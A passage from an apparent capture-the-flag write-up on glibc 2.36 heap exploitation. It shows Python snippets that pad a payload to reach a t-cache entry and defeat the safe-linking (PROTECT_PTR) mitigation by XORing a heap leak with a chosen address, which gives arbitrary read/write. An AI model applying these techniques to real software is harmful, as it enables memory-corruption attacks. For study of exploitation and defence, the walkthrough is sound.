

At this point the player controls the `t-cache singly linked list`, and now has an `arbitrary read` and `arbitrary write` gadget.



#### Making it last (From one-time t-cache hijack to consistent arbitrary r/w)

First things first, to reach the pointer of the `t-cache` list, a bit of padding is needed. As shown in the "`house of lore`"-writeup segment towards the end, the `pointers` in the t-cache bin contains a lot of `\x00`'s, meaning some padding will have to be made. A simple snippet such as the following does the trick:

```python
payload = b'A'*0x128            # Padding to reach FD of t-cache entry 0
edit(4, payload)

# -------- Loop to abuse 8-byte alignment to reach t-cache --------- #
for i in range(2, 13):
    if i%3 == 0:
        payload += b'A'*0x10
    else:
        payload += b'A'*0x8
    edit(4, payload)
# ------------------------------------------------------------------ #
```



##### safe-linking mitigation (PROTECT_PTR)

After which a new payload can be constructed which reaches all the way to the pointer of `t-cache` `entry 0`. However as the challenge uses `glibc 2.36`, the newly added [safe-linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/) mitigation has to be bypassed. Luckily this is rather easy with the `leaks` from earlier.



The mitigation itself is fairly simple:

```c
#define PROTECT_PTR(pos, ptr, type)  \
        ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
#define REVEAL_PTR(pos, ptr, type)   \
        PROTECT_PTR(pos, ptr, type)
```



And can be bypassed by simply taking the `PAGE_SHIFT` from the `heap_leak` and `xoring` it with the `destination` wanted:

```python
# Defeat PROTECT_PTR and insert the address of garbage_truck in to the tcache
prot_xor = heap_leak>>12	# Get the pos >> PAGE_SHIFT "xor key"
dest = heap_leak+0x100		# Destination is the malloc management chunk
fin = prot_xor ^ dest		# Calculate the PROTECT_PTR result
info("PROTECT_PTR res: %s^%s = %s" % (hex(prot_xor), hex(dest), hex(fin)))

edit(4, payload+p64(fin))	# Send payload

# Malloc to make the next t-cache entry the dest address
malloc(0x100-0x8, b'_')
```
